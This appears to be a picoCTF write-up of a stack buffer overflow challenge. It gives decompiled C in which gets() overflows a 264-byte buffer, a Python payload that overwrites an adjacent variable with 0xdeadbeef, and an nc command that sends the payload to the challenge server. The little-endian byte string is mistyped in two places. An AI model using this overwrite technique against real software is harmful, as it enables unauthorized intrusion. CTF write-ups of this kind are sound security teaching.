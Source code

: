 # Challenge Description
The program reads user input into a buffer clutter using the unsafe gets() function. Our goal is to overflow this buffer to overwrite an adjacent 4-byte variable named code with the specific value 0xdeadbeef, bypassing a security check and printing the flag.

## Solution:

Source Code / Decompilation: Analyzing the binary (e.g., in Ghidra) reveals a main function with logic similar to this:

```
void main(void) {
  char clutter[264]; // Buffer size is 264 bytes
  int code;

  code = 0; // Variable is initialized
  gets(clutter); // Unsafe function reads input

  if (code == 0xdeadbeef) {
    print_flag(); // Our goal
  } else {
    printf("Wrong code\n");
  }
}
```
Vulnerability: The function gets() is notoriously insecure because it does not perform any bounds checking. It will continue writing input to the clutter buffer until it receives a newline, overflowing onto adjacent stack memory.

Stack Layout: Local variables are typically laid out sequentially on the stack. In this 64-bit binary, the clutter buffer is placed on the stack, and the code variable is placed immediately after it in memory.

Exploit Plan: Our payload must be a single string that fills the clutter buffer completely and then "spills over" to overwrite the code variable.

Padding: We need exactly 264 bytes of "junk" data to fill the clutter buffer.

Value: Immediately following the junk, we must provide the 4-byte value 0xdeadbeef.

Endianness: Since x86-64 systems are little-endian, the multi-byte value 0xdeadbeef must be written in reverse byte order: \xef\xbe\xad\de.

## Steps 

1. Determining the Offset
Static analysis with Ghidra or dynamic analysis with gdb is used to find the exact size of the clutter buffer.

Static Analysis (Ghidra/IDA): Decompiling the binary reveals the clutter buffer is 264 bytes long, and the code variable is placed on the stack immediately after it.

Dynamic Analysis (GDB):

Generate a De Bruijn sequence (a "cyclic pattern") using pwntools: cyclic(300).

Run the program in gdb: gdb ./chall.

Inside gdb, run the program with the pattern as input: r < <(cyclic(300)).

The program will either segfault or finish. We inspect the value of the code variable just before the if check.

Alternatively, check what value (e.g., 0x6161616a) overwrote the code variable. cyclic_find(0x6161616a) would then return the offset, 264.

2. Crafting the Payload
The payload will be [264 bytes of padding] + [4-byte value]. We can use Python to construct this.

```python

import struct

# 1. Padding: 264 'A' characters
# We use 'b' to create a byte string
padding = b'A' * 264

# 2. Value: 0xdeadbeef
# We use struct.pack with '<I' to pack it as a
# 4-byte (<I) little-endian (<) unsigned integer.
value = struct.pack('<I', 0xdeadbeef)
# This is equivalent to b'\xef\xbe\xad\de'

# 3. Final Payload
payload = padding + value
```
3. Executing the Exploit
We send this payload to the remote server using a pipe. The gets() function on the server will read our payload, overflow the clutter buffer, and set the code variable to 0xdeadbeef. The if condition will then pass, and the server will execute print_flag(), sending the flag back to us.

Local Python command:

```

# We use python3 -c "..." to print the raw bytes of our payload
# Note: We must use sys.stdout.buffer.write() to send raw bytes,
# as print() can mangle them.

python3 -c "import sys, struct; padding = b'A' * 264; value = struct.pack('<I', 0xdeadbeef); sys.stdout.buffer.write(padding + value)"
```
Full exploit pipe:

```

(python3 -c "import sys, struct; padding = b'A' * 264; value = struct.pack('<I', 0xdeadbeef); sys.stdout.buffer.write(padding + value)") | nc saturn.picoctf.net [PORT]

```
## Flag
```
picoCTF{c0ntr0ll3d_clutt3r_1n_my_buff3r}
```
## Concepts Learnt
Stack Buffer Overflow: The fundamental vulnerability where writing to a buffer on the stack exceeds its allocated bounds.

Unsafe C Functions (gets): A clear demonstration of why gets() was deprecated and is extremely dangerous. It has no mechanism to prevent overflows. fgets() is the safe alternative.

Stack Frame Layout: A deeper understanding of how a function's local variables are organized in memory. In this case, they were adjacent, allowing one to overwrite the other.

Data vs. Control Flow Attacks: This was a data-oriented attack. We didn't hijack the program's control flow (by overwriting a return address); we corrupted its data (the code variable) to trick its existing logic.

Endianness (Little-Endian): A critical concept in binary exploitation. Multi-byte numbers like integers (0xdeadbeef) are stored with the least-significant byte (ef) first in memory on x86/x64 systems. Our payload must match this format.

## Notes
Variable Overwrite vs. ROP: This attack is simpler than a standard Return-Oriented Programming (ROP) attack. Our goal was only to modify a variable's value, not to seize control of the instruction pointer (RIP).

Finding the Offset: The most common method for finding offsets in "pwn" challenges is using a De Bruijn sequence, or a "cyclic pattern," generated by pwntools. You send cyclic(300), let the program crash, and then see what value (e.g., 0x6161616a) overwrote the target. cyclic_find(0x6161616a) would then tell you the exact offset (e.g., 264).

Local vs. Remote: The program logic required a flag.txt to exist. This file is present on the remote server but must be created locally (e.g., echo "fake_flag" > flag.txt) for testing.

pwntools: The pwntools Python library simplifies this. p32(0xdeadbeef) is the pwntools equivalent of struct.pack('<I', 0xdeadbeef) and is the standard for CTF players.

## Resources
https://ghidra-sre.org/

https://github.com/Gallopsled/pwntools

https://www.sourceware.org/gdb/

https://www.youtube.com/watch?v=CRTR5ljBjPM



